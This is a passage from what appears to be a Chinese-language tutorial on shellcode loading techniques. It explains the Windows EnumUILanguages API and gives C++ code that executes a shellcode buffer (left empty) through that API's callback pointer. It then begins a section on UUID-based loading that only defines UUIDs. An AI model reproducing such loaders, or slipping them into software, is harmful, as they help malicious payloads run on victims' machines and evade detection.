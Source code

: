 

## EnumUILanguages

`EnumUILanguages` 函数是一个Windows API函数，用于枚举系统支持的用户界面（UI）语言。这个函数可以让应用程序查询系统支持的所有UI语言，这对于开发多语言支持的应用程序特别有用。它遵循特定的回调函数模式，意味着你需要提供一个回调函数，`EnumUILanguages` 会为系统中每一种可用的UI语言调用这个回调函数一次

其函数原型如下所示：

```cpp
BOOL EnumUILanguagesW(
  UILANGUAGE_ENUMPROCW lpUILanguageEnumProc,  // 指向回调函数的指针
  DWORD                 dwFlags,  // 指定枚举语言的行为
  LONG_PTR              lParam  // 提供一个应用程序定义的值，该值随着每次回调函数调用被传递
);
```



shellcode加载代码如下所示：

```cpp
#include <Windows.h>

unsigned char shellcode[] ="";

void CallBack() {

    void* p = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(p, shellcode, sizeof(shellcode));
	  
    EnumUILanguages((UILANGUAGE_ENUMPROC)p, 0, 0);

}

int main() {
    CallBack();
}
```



# 8.基于uuid

## 什么是UUID

UUID（Universally Unique Identifier，通用唯一识别码）是一种为计算机系统中的所有对象分配一个唯一标识符的软件构建块。UUID 是 128 位的数字，通常由 32 个十六进制(16个字节)数字表示，并由连字符分隔成五个部分，形式为 8-4-4-4-12。例如：

```
550e8400-e29b-41d4-a716-446655440000
```

UUID 的目的是在没有中央协调机构的情况下，能够在分布式系统中生成唯一标识符。这意味着，任何人在任何地方都可以创建一个 UUID，而无需担心与其他人创建的 UUID 冲突。UUID 的设计使得它们的全局唯一性非常高，即使在不同的计算机系统和网络中也能保持唯一性。
